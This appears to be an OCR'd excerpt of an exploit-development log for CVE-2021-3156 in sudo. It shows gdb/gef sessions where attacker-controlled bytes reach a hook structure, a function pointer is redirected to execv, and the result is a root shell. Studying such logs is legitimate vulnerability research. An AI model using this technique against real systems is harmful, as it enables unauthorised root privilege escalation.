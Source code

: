 ```
r12            0x7fffffffe770      140737488349040
r13            0x7fffffffe7b0      140737488349104
r14            0x7fffffffe818      140737488349208
r15            0x2                 2
rip            0x555555566502      0x555555566502
eflags         0x10206             [ PF IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
k0             0x0                 0
k1             0x0                 0
k2             0x0                 0
k3             0x0                 0
k4             0x0                 0
k5             0x0                 0
k6             0x0                 0
k7             0x0                 0
=> 0x555555566502:	callq  *0x8(%rbx)
(gdb) i r rbx
rbx            0x555555583650      93824992425552
(gdb) x/8x 0x555555583650
0x555555583650:	0x42424242	0x42424242	0x42424242	0x42424242
0x555555583660:	0x42424242	0x42424242	0x42424242	0x42424242
(gdb) 
```

Attacker controlled data present in the hooks target struct, allowing us an arbitrary RIP value


```
gef➤  p execv
$1 = {int (const char *, char * const *)} 0x7ffff7e50450 <execv>
gef➤  p *hook
$2 = {
  entries = {
    sle_next = 0x0
  },
  u = {
    generic_fn = 0x7ffff71f7a20 <sudoers_hook_getenv>,
    setenv_fn = 0x7ffff71f7a20 <sudoers_hook_getenv>,
    unsetenv_fn = 0x7ffff71f7a20 <sudoers_hook_getenv>,
    getenv_fn = 0x7ffff71f7a20 <sudoers_hook_getenv>,
    putenv_fn = 0x7ffff71f7a20 <sudoers_hook_getenv>
  },
  closure = 0x0
}
gef➤  p hook.u->getenv_fn = 0x7ffff7e50450
$3 = (sudo_hook_fn_getenv_t) 0x7ffff7e50450 <execv>
gef➤  c
Continuing.
process 1759302 is executing new program: /home/lockedbyte/Desktop/exploits/CVE-2021-3156/sudo-1.8.31/SYSTEMD_ONLY_USERDB
Error in re-setting breakpoint 1: No source file named hooks.c.
# id
[Detaching after fork from child process 1759317]
uid=0(root) gid=0(root) groups=0(root)
# 
```
